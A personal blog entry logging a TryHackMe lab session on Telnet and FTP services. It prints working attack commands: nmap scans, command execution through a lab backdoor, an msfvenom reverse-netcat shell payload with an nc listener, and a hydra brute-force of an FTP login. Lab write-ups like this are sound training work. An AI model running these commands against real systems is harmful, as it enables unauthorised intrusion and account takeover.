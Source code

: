 ```yaml
---
title: Day 13
date: 2022-04-26
layout: post.njk
---
```


{{ page.date.toDateString }}

Today I'm starting on the Telnet section of the [Network Services Module](https://tryhackme.com/room/networkservices). I know Telnet is pretty old and not used very often, but I always think knowing more is better than knowing less.


Just like I thought:
> "Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations."

I ran an nmap scan against the target, but got no open ports up when I just ran `nmap -sS <IP>`. It only ran it against the first 100 ports so I bumped it to 10000 and got one: `Port 8012`. Service is unknown.

When I telnet to it I get the message:
> "SKIDY'S BACKDOOR"
But it doesn't appear that any commands can be run.

So I followed the instructions to set up the `tcpdump` on the attack box via: `sudo tcpdump ip proto \\icmp -i eth0`. This essentially is saying listen for ping requests on the eth0 interface.

I then was able to run a ping on the connected host using the `.RUN` command: `.RUN ping <ip> -c 1` and I recieved the ping request. This means I can execute commands on the remote system.

I then used `msfvenom` to create a specific payload to get a shell on the remote machine. `msfvenom -p cmd/unix/reverse_netcat lhost=<ip> lport=4444 R`. The payload creates a netcat connection back to your local machine so I justed needed to set up a netcat listener locally on the port I specificed in the msfvenom command. `nc -lvp 4444`

After running that I run the payload on the remote machine and I got a connection back! a simple ls revealed `flag.txt`.

Finally I moved onto the FTP section. The enumeration was pretty simple I ran `nmap -sT <ip>` and it came back with two ports. There was a webserver on port 80 and ftp running on 21. I ran `nmap -sV <ip> -p 21` to get mroe info on the FTP service. I was then able to login anonymously: `username: anonymous, password: <blank>` There was a file in there signed by Mike.

To get in I used hydra to brute force the password while guessing that there is a username `mike`. The command was: `hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp`

It was able to brute force the password quickly and gave me a password of...`password`. I was then able to login via ftp using that username and password to retrieve the flag.


Overall it was a module and I really enjoyed getting to do some exploitation. Looking forward to [Netowork Services 2](https://tryhackme.com/room/networkservices2) tomorrow!

Happy Hacking.

